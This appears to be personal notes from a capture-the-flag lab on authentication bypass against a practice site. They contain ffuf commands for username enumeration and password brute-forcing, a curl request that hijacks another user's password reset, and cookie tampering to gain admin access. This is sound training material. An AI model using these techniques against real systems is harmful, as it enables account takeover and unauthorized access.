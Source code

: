 # authorization bypassing

We're using ffuf (fuzz faster you fool) To enumerate usernames through the signupform

The tool sends a http POST and compares the response if the reply contains 'username already exists' that is a valid user.
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://[remoteServerIP]/customers/signup -mr "username already exists"
## Usernames

admin
robert
simon
steve


save these to txt file

then ffuf away:

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://[remoteServerIP]/customers/login -fc 200

## Logic Flaws

reset password

use email robert@acmeitsupport.thm username robert

then try curl 
'http://10.10.149.92/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

There is a flaw in the app logic that will send the reset password email to anyone. add an email field to the http request.

By signing up for an acmeitsupport account you get a {username}@customer.acmeitsupport.thm email address. Emails to this account show up as support tickets.

make an account attacker:password and then curl:

curl 'http://[remoteMachineIPAddress]/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@customer.acmeitsupport.thm'

log on as your attacker account and retrieve secret URL from the ticket which will log you in as robert and see his tickets for the THM{KEY}

### Cookies

fiddling about with the cookies

curl http://10.10.149.92/cookie-test

curl -H "Cookie: logged_in=true; admin=false" http://10.10.149.92/cookie-test
for non admin

and for admin:
curl -H "Cookie: logged_in=true; admin=true" http://10.10.149.92/cookie-test

We then walk through some hashing 
md5 use crackstation:
463729

echo VEhNe0JBU0U2NF9FTkNPRElOR30= | base64 --decode
THM{BASE64_ENCODING}

encode the value *in inverted commas*: 
echo '{"id":1,"admin":true}' | base64
eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==

